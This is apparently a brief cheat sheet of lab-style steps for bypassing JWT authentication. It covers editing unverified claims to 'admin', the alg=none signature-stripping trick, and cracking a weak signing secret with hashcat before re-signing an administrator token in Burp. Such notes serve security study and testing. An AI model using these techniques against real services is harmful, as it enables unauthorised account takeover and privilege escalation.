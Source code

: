 
# Attacking JWT Methods

## JWT authentication bypass via unverified signature

```bash
"username":"delta",  
## Change This To
"username":"admin",
```

## JWT authentication bypass via flawed signature verification

```bash
Select The Header Part From Inspecter Section In Burp
Decode Base 64
Change alg to none "alg":"none"
Click apply changes
"username":"delta",  
## Change This To
"username":"admin",
Then Remove End/signature part and send request
if fails add . at end then resend
```

## JWT authentication bypass via weak signing key
```bash
Log In With Your Credentials. Copy JWT from cookie
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list
# Now Hashcat Will Show Us The Cracked Secret
In Burp, go to the JWT Editor Keys tab and click New Symmetric Key. In the dialog, click Generate to generate a new key in JWK format.
Replace the generated value for the k property with the Base64-encoded secret.
Click Ok
Now we have new Signature 
Burp Repeater and switch to the extension-generated JSON Web Token message editor tab. 
In the payload, change the value of the sub claim to administrator
At the bottom of the tab, click Sign, then select the key that you generated in the previous section.
send request DONE!!
```

